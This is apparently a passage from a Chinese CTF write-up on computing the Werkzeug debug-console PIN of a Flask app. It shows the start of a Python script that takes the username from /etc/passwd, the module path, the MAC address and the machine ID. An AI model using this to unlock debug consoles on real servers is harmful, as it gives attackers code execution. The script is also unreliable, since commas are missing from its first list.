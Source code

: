 ![20240512201541118](./images/202406012237609.png)

### 计算pin

网上可以找到脚本[Flask调试模式PIN值计算和利用](https://blog.hz2016.com/2023/07/flask%E8%B0%83%E8%AF%95%E6%A8%A1%E5%BC%8Fpin%E5%80%BC%E8%AE%A1%E7%AE%97%E5%92%8C%E5%88%A9%E7%94%A8/)

```python
import hashlib

from itertools import chain

probably_public_bits = [

    'pincalculate'  # username 可通过/etc/passwd获取

    'flask.app',  # modname默认值

    'Flask',  # 默认值 getattr(app, '__name__', getattr(app.__class__, '__name__'))

    '/usr/local/lib/python3.11/site-packages/flask/app.py'  # 路径 可报错得到  getattr(mod, '__file__', None)

]

private_bits = [

    '2485378351106',  # mac地址十进制,使用print(int("02:42:ac:18:00:02".replace(":",""),16))，即可转换成10进制

    '39c61de4-9c0a-4738-b95d-ef3f488d7222'

]

# 下面为源码里面抄的，不需要修改

```